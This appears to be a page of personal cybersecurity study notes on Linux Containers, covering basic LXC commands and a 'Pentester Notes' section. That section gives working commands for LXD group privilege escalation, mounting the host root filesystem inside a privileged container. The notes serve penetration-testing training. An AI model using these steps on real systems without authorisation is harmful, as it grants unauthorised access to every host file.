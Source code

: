 # Linux Containers (LXC)

[![linuxfundamentals](../../../../cybersecurity/_badges/htb/linuxfundamentals.svg)](https://academy.hackthebox.com/course/preview/linux-fundamentals)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxsystemhardening](../../../../cybersecurity/_badges/thmp/linuxsystemhardening.svg)](https://tryhackme.com/room/linuxsystemhardening)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) is built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo. 

```shell!
$ lxd init
$ lxc image list # list downloaded images
```

If you have internet access, you can download an image:

```shell!
$ lxc launch ubuntu:22.04 container_name
```
</div><div>

Alternatively, you can import an image from a file. You can build an alpine image <small>(~3Mb)</small> using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) <small>(0.1k ⭐, 2021 🪦)</small>.

```shell!
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Transfer the generated tar.gz onto the target and use:

```ps
$ lxc image import xxx.tar.gz --alias image_name
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### LXD Group Privilege Escalation

[![linuxprivilegeescalation](../../../../cybersecurity/_badges/hacktricks/linux_hardening/privilege_escalation/interesting_groups_linux_pe/lxd_privilege_escalation.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![gamingserver](../../../../cybersecurity/_badges/thm-p/gamingserver.svg)](https://tryhackme.com/room/gamingserver)

A member of the LXD group can be leveraged for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md). You will mount the folder `/` within the container inside `/mnt/hostfs/` allowing you to access any file or edit any file.

* `image_name` is the name of the image you want to use
* `container_name` is a random name, such as `pwned`
* `device_name` doesn't matter, you can use `pwned` too

```shell!
host$ lxc init image_name container_name -c security.privileged=true
host$ lxc config device add container_name device_name disk source=/ path=/mnt/hostfs recursive=true
host$ lxc start container_name
host$ lxc exec container_name /bin/sh
container$ cd /mnt/hostfs/
```
</div><div>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ lxc image list
$ 
$ sudo apt-get install lxc lxc-utils -y
$ sudo lxc-create -n xxx -t yyy
$ lxc-ls
$ lxc-start/stop/restart -n xxx
$ lxc-config -n xxx -s storage/network/security
$ lxc-attach -n xxx [-f /path/to/share]
```
</div><div>
</div></div>